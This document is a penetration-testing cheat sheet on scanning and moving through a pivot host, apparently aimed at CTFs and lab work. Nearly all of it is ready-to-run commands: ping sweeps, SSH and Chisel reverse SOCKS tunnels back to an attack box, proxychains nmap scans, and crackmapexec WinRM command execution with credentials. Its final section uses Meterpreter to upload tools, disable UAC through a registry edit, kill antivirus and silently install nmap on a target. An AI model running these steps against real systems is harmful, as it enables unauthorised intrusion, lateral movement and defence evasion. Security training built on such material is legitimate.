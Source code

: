 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
    + [SSH Dynamic Tunnels](#ssh-dynamic-tunnels)
    + [Chisel](#chisel)
    + [Nmap scan through a dynamic SOCKS proxy](#nmap-scan-through-a-dynamic-socks-proxy)
    + [Web access:](#web-access-)
    + [Use WinRM through proxychains](#use-winrm-through-proxychains)
    + [RDP through ProxyChains](#rdp-through-proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
